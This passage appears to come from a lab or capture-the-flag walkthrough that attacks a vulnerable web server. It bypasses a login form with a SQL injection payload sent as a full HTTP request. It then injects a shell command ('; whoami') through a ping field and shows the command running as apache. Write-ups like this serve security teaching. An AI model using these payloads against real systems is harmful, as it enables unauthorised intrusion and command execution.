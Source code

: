 ### 2. Investigate the web server
This time, accessing the HTTP server gets a simple login form. The HTTPS version of the site errors out due to an invalid certificate, so for now this will be my focus. The login form does not present any errors to the user if invalid input is entered. Despite this, SQL injection can be attempted.

### 3. Get past the login page
Using a basic SQL injection payload of `' OR '1='1`, it is possible to bypass the login form.
```
POST /index.php HTTP/1.1
Host: 10.1.1.58
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.1.1.58/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Connection: close
Upgrade-Insecure-Requests: 1

uname=admin&psw=%27+OR+%271%27%3D%271&btnLogin=Login
```
This gives access to a single textbox that prompts us for an IP address to ping. Entering an IP and hitting the button will return the results in a new window. So for example, entering the address of my attacker machine:
```
10.1.1.74

PING 10.1.1.74 (10.1.1.74) 56(84) bytes of data.
64 bytes from 10.1.1.74: icmp_seq=0 ttl=64 time=0.427 ms
64 bytes from 10.1.1.74: icmp_seq=1 ttl=64 time=0.630 ms
64 bytes from 10.1.1.74: icmp_seq=2 ttl=64 time=1.01 ms

--- 10.1.1.74 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.427/0.692/1.019/0.245 ms, pipe 2
```
Basically this is returning the results of the ping command. As this is a PHP application, it is most likely making a call to system or shell_exec with a parameter to accomplish this, which means command injection may be possible.
```bash
10.1.1.74; whoami

PING 10.1.1.74 (10.1.1.74) 56(84) bytes of data.
64 bytes from 10.1.1.74: icmp_seq=0 ttl=64 time=0.983 ms
64 bytes from 10.1.1.74: icmp_seq=1 ttl=64 time=0.730 ms
64 bytes from 10.1.1.74: icmp_seq=2 ttl=64 time=0.708 ms

--- 10.1.1.74 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 0.708/0.807/0.983/0.124 ms, pipe 2
apache
```
As can be seen here, this is indeed the case. With this information we now effectively have a means to interact with the machine.
